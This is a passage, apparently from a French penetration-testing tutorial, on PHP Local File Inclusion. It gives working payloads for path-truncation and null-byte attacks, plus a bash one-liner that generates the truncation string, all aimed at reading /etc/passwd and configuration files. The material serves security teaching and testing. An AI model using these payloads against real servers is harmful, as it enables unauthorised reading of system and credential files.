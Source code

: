 * En créant un chemin **extrêmement long** avec beaucoup de `./`, on pouvait dépasser la limite et **supprimer automatiquement l’extension `.php`** ajoutée par l’application.

✅ **Payload d’exemple**

{% code fullWidth="true" %}
```bash
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
{% endcode %}

Pour générer automatiquement cette chaîne :

{% code overflow="wrap" fullWidth="true" %}
```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```
{% endcode %}

Sortie :

{% code fullWidth="true" %}
```
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```
{% endcode %}

🔥 **Remarque :**\
Si on ajoute trop de `../`, on reste quand même dans le répertoire `/`, mais il faut **bien calculer la longueur du chemin** pour s’assurer que **seule** `.php` est tronquée et pas notre fichier cible (`/etc/passwd`).

***

<mark style="color:green;">**3️⃣ Injection de Null Byte (%00) – Obsolète**</mark>

✅ **Principe**

* Avant **PHP 5.5**, il était possible d’injecter un **null byte** (`%00`) pour **tronquer un chemin**.
* En mémoire, une chaîne de caractères s’arrête au premier `\0` (null byte), comme en **C/C++**.

✅ **Exploitation**

* On ajoute `%00` à la fin du fichier demandé, ce qui **bloque** tout ce qui suit.
*   Exemple :

    ```bash
    ?language=/etc/passwd%00
    ```
* L’application voit `/etc/passwd%00.php`, mais PHP coupe après `%00` et charge `/etc/passwd`.

🚀 **Impact**

* Contournement direct des restrictions d’extension `.php`.
* Possibilité de lire des fichiers système sensibles (`/etc/passwd`, `/var/www/config.php`…).

***

## <mark style="color:red;">Filtres PHP</mark>&#x20;
